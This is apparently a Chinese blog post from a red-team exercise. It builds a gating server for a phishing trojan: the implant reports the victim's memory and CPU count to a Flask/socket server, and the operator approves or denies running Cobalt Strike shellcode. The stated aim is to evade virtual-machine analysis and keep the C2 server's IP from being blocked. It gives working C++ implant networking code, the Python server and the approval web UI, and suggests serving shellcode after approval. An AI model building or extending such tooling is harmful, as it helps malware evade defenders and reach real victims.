


目标
教育护网的时候出现了钓鱼的木马样本被安全人员分析导致cs服务器的ip被封的情况，就想着写一个简单的准接入控制平台，来控制肉鸡是否允许连接至cs服务器。
理想效果是：点击木马以后，会先发送连接请求到接入控制服务器，在服务器上允许接入以后，木马运行shellcode，否则程序结束。
肉鸡在请求连接的时候，会携带电脑的部分信息（处理器数量、内存大小等），方便攻击者判断是否为虚拟机环境
开搞
思路：控制服务器打算用python的flask来写，客户端与服务器的通信采用socket连接
客户端会发送自己的内存大小以及处理器数量给服务端
服务端将数据在网页中显示
攻击者选择是否允许接入
将选择结果返回给客户端
获取内存大小以及处理器数量
windows中自带了API可以非常方便的用来获取这两个参数，分别是GlobalMemoryStatusEx方法和GetSystemInfo方法
具体代码：
1 2 3 4 5 6 7 8 9 10 11 MEMORYSTATUSEX meminfo; meminfo.dwLength = sizeof (MEMORYSTATUSEX); GlobalMemoryStatusEx (&meminfo);DWORDLONG memory_num = meminfo.ullTotalPhys / (1024 * 1024 ); SYSTEM_INFO sysinfo; GetSystemInfo (&sysinfo);DWORD core_count = sysinfo.dwNumberOfProcessors; return to_string (memory_num)+ "," + to_string (core_count);
如果电脑是16G内存带有16个处理器的话，该程序会返回一个字符串“16000,16”
socket客户端
用c++来写socket主要利用的是ws2_32.lib，所以要先导入
1 2 #include <windows.h> #pragma comment(lib, "ws2_32.lib" )
接下来就是调用对应的api进行操作了，整体代码为:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 WSADATA wsaData; int iResult = WSAStartup (MAKEWORD (2 , 2 ), &wsaData);if (iResult != 0 ) { cout << "WSAStartup failed: " << iResult << endl; return 1 ; } SOCKET ConnectSocket = socket (AF_INET, SOCK_STREAM, IPPROTO_TCP); if (ConnectSocket == INVALID_SOCKET) { cout << "socket failed: " << WSAGetLastError () << endl; WSACleanup (); return 1 ; } sockaddr_in serverAddr; serverAddr.sin_family = AF_INET; serverAddr.sin_addr.s_addr = inet_addr ("192.168.200.225" ); serverAddr.sin_port = htons (9999 ); iResult = connect (ConnectSocket, (SOCKADDR*)&serverAddr, sizeof (serverAddr)); if (iResult == SOCKET_ERROR) { cout << "connect failed: " << WSAGetLastError () << endl; closesocket (ConnectSocket); WSACleanup (); return 1 ; } iResult = send (ConnectSocket, sendData.c_str (), sendData.length (), 0 ); if (iResult == SOCKET_ERROR) { cout << "send failed: " << WSAGetLastError () << endl; closesocket (ConnectSocket); WSACleanup (); return 1 ; } char recvData[1024 ] = { 0 };iResult = recv (ConnectSocket, recvData, sizeof (recvData), 0 ); if (iResult > 0 ) { cout << "Received: " << recvData[0 ] << endl; if (recvData[0 ] == '1' ) { cout << "服务端准许接入" << endl; } else { cout << "服务端不准许接入" << endl; } } else if (iResult == 0 ) { cout << "Connection closed" << endl; } else { cout << "recv failed: " << WSAGetLastError () << endl; } closesocket (ConnectSocket);WSACleanup ();
上述代码会通过socket连接到192.168.200.225的9999端口，发送sendData，并等待返回数据，如果返回1则输出“服务端准许接入”，返回0则输出“服务端不准许接入”
socket服务端
服务端用python来写，通过socketserver这个包来处理多个客户端的连接请求。
首先定义一个socket_server_start方法来监听socket请求，当连接建立以后将会调用MyTCPHandler类的handle方法。
1 2 3 4 5 def socket_server_start (): HOST, PORT = "192.168.200.225" , 9999 print ('server start listen on ' +PORT) with socketserver.ThreadingTCPServer((HOST, PORT), MyTCPHandler) as server: server.serve_forever()
1 2 3 4 5 6 class MyTCPHandler (socketserver.BaseRequestHandler): def handle (self ): print ('Server is listening on {}:{}' .format (self.client_address[0 ], self.client_address[1 ])) data = self.request.recv(1024 ).strip().decode() memory,core = data.split("," ) print ("内存大小为：{}MB，处理器数量为：{}" .format (memory,core))
在获取到计算机硬件信息后，将信息存储到一个列表里，通过flask创建一个路由用来返回json格式的数据，再在前端通过fetch来获取数据并显示出来
显示数据
通过displayBox函数将收到的数据显示出来
1 2 3 4 5 6 7 8 function displayBox (time,ip, memory, core ) { var container = document .getElementById ("container" ); var content = "连接时间为：" +time+"<br>IP地址为：" + ip + "<br>内存大小为：" + memory + "MB<br>处理器数量为：" + core + "个<div><button class = 'button' onclick='AllowFunction(\"" + ip + "\", 1)'>允许</button><button class = 'button' onclick='AllowFunction(\"" + ip + "\", 0)' >拒绝</button></div>" ; var box = document .createElement ("div" ); box.className = "red-box" ; box.innerHTML = content; container.appendChild (box); }
“允许”或“拒绝”
在上述函数中，点击“允许”调用AllowFunction(ip,1)，点击拒绝则调用AllowFunction(ip,0)
通过AllowFunction函数向flask服务器发起一个请求来修改对应ip的准接入结果
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 function AllowFunction (ip, isallow ){ const url = host+`change?ip=${ip} &isallow=${isallow} ` ; fetch (url) .then (response => if (response.ok ) { console .log ("请求成功" ); } else { console .error ("请求失败" ); } }) .catch (error => console .error ("请求发生错误" , error); });
最后回到socket服务端，将修改后的结果返回给socket客户端
1 self.request.sendall(str (cmps[i]["isallow" ]).encode())
效果

第一个是真机，第二个是虚拟机
升级
通过准接入系统可以做的事情还有很多，可以试着携带更多的信息来帮助我们判断是真机还是虚拟机，同时也可以将shellcode放到服务器，允许接入后将shellocde返回给客户端并加载。